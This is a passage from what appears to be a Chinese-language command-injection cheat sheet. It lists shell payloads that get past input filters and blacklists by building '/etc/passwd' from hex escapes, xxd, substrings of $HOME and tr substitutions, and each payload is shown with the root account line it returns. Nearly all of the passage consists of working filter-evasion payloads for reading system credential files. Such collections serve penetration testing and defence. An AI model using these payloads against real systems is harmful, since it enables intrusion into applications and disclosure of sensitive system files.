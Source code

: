   ```powershell
  cat%20/et%5C%0Ac/pa%5C%0Asswd
  ```

### 通过十六进制编码绕过字符过滤器

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### 绕过字符过滤器

不使用反斜杠和斜杠执行命令 - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### 绕过黑名单词汇
